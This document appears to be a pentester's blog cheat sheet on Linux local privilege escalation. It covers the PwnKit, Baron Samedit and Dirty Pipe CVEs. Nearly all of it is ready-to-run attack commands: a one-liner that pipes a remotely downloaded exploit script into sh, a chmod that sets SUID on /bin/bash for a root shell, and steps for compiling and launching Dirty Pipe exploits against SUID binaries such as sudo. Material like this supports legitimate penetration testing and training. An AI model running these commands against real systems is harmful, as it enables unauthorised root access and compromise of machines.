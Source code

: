 ```yaml
---
title: Linux LPE
author: asphixie
date: 2023-03-10 20:55:00 +0800
categories: [Linux, Privilege Escalation]
pin: true
comments: false
---
```


## CVE-2021-4034 : Polkit privilege escalation exploit

Many PoCs on internet. This one can be used easily, downloading it on Internet : 
```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```
{: .nolineno }
More information on : https://github.com/ly4k/PwnKit

## CVE-2021-3156 : Sudo Baron Samedit exploit

Based on <https://github.com/redhawkeye/sudo-exploit>
Adding SUID to bash if you can control a binary/script launched by root :
```bash
chmod +s /bin/bash
/bin/bash -p
```
{: .nolineno }

## CVE-2022-0847 : Dirty Pipe

Based on <https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits>. Start with compile :
```bash
./compile.sh
```
{: .nolineno }
Then launch the exploit :
```bash
./exploit-1
```
{: .nolineno }
If doesn't works, try to find SUID binaries (sudo for example) :
```bash
find / -perm -4000 2>/dev/null
./exploit-2 /usr/bin/sudo
```
{: .nolineno }
